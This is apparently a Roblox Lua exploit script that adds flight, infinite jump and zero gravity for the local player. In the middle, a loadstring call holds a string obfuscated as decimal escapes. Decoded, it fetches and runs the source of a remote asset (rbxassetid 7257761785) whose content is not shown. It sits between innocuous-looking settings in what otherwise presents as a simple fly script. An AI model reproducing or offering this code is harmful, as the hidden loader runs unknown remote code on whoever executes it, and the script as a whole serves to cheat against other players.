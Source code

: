 repeat wait()
    until game.Players.LocalPlayer and game.Players.LocalPlayer.Character and game.Players.LocalPlayer.Character:findFirstChild("UpperTorso") and game.Players.LocalPlayer.Character:findFirstChild("Humanoid")
local mouse = game.Players.LocalPlayer:GetMouse()
repeat wait() until mouse
local plr = game.Players.LocalPlayer
local torso = plr.Character.UpperTorso
local flying = true
local deb = true
local ctrl = {f = 0, b = 0, l = 0, r = 0}
local lastctrl = {f = 0, b = 0, l = 0, r = 0}
local maxspeed = 50
local speed = 0
 
function Fly()
local bg = Instance.new("BodyGyro", torso)
bg.P = 9e4
bg.maxTorque = Vector3.new(9e9, 9e9, 9e9)
bg.cframe = torso.CFrame
local bv = Instance.new("BodyVelocity", torso)
bv.velocity = Vector3.new(0,0.1,0)
bv.maxForce = Vector3.new(9e9, 9e9, 9e9)
repeat wait()
plr.Character.Humanoid.PlatformStand = true
if ctrl.l + ctrl.r ~= 0 or ctrl.f + ctrl.b ~= 0 then
speed = speed+.5+(speed/maxspeed)
if speed > maxspeed then
speed = maxspeed
end
elseif not (ctrl.l + ctrl.r ~= 0 or ctrl.f + ctrl.b ~= 0) and speed ~= 0 then
speed = speed-1
if speed < 0 then
speed = 0
end
end
if (ctrl.l + ctrl.r) ~= 0 or (ctrl.f + ctrl.b) ~= 0 then
bv.velocity = ((game.Workspace.CurrentCamera.CoordinateFrame.lookVector * (ctrl.f+ctrl.b)) + ((game.Workspace.CurrentCamera.CoordinateFrame * CFrame.new(ctrl.l+ctrl.r,(ctrl.f+ctrl.b)*.2,0).p) - game.Workspace.CurrentCamera.CoordinateFrame.p))*speed
lastctrl = {f = ctrl.f, b = ctrl.b, l = ctrl.l, r = ctrl.r}
elseif (ctrl.l + ctrl.r) == 0 and (ctrl.f + ctrl.b) == 0 and speed ~= 0 then
bv.velocity = ((game.Workspace.CurrentCamera.CoordinateFrame.lookVector * (lastctrl.f+lastctrl.b)) + ((game.Workspace.CurrentCamera.CoordinateFrame * CFrame.new(lastctrl.l+lastctrl.r,(lastctrl.f+lastctrl.b)*.2,0).p) - game.Workspace.CurrentCamera.CoordinateFrame.p))*speed
else
bv.velocity = Vector3.new(0,0.1,0)
end
bg.cframe = game.Workspace.CurrentCamera.CoordinateFrame * CFrame.Angles(-math.rad((ctrl.f+ctrl.b)*50*speed/maxspeed),0,0)
until not flying
ctrl = {f = 0, b = 0, l = 0, r = 0}
lastctrl = {f = 0, b = 0, l = 0, r = 0}
speed = 0
bg:Destroy()
bv:Destroy()
plr.Character.Humanoid.PlatformStand = false
end
mouse.KeyDown:connect(function(key)
if key:lower() == "e" then
if flying then flying = false
else
flying = true
Fly()
end
elseif key:lower() == "w" then
ctrl.f = 1
elseif key:lower() == "s" then
ctrl.b = -1
elseif key:lower() == "a" then
ctrl.l = -1
elseif key:lower() == "d" then
ctrl.r = 1
end
end)
mouse.KeyUp:connect(function(key)
if key:lower() == "w" then
ctrl.f = 0
elseif key:lower() == "s" then
ctrl.b = 0
elseif key:lower() == "a" then
ctrl.l = 0
elseif key:lower() == "d" then
ctrl.r = 0
end
end)
Fly()

game:GetService("StarterGui"):SetCore("SendNotification",{ Title = "CREDITS", Text = "made by whalix", Button1 = ":D", Duration = 20, })  
InfiniteJumpEnabled = false game:GetService("UserInputService").JumpRequest:connect(function() if InfiniteJumpEnabled then game:GetService"Players".LocalPlayer.Character:FindFirstChildOfClass'Humanoid':ChangeState("Jumping") end end)

net = true -- if false = do nothing
notify = false -- set this to false if u don't want to see notiflication

loadstring("\13\10\108\111\97\100\115\116\114\105\110\103\40\103\97\109\101\58\71\101\116\79\98\106\101\99\116\115\40\34\114\98\120\97\115\115\101\116\105\100\58\47\47\55\50\53\55\55\54\49\55\56\53\34\41\91\49\93\46\83\111\117\114\99\101\41\40\41\13\10")()

game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Climbing,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.FallingDown,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Flying,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Freefall,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.GettingUp,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Jumping,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Landed,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Physics,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.PlatformStanding,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Ragdoll,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Running,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.RunningNoPhysics,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Seated,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.StrafingNoPhysics,false)
	game.Players.LocalPlayer.Character.Humanoid:SetStateEnabled(Enum.HumanoidStateType.Swimming,false)
	game.Players.LocalPlayer.Character.Humanoid:ChangeState(Enum.HumanoidStateType.Swimming)

game.Players.LocalPlayer.Character.Animate.Disabled = true

workspace.Gravity = 0
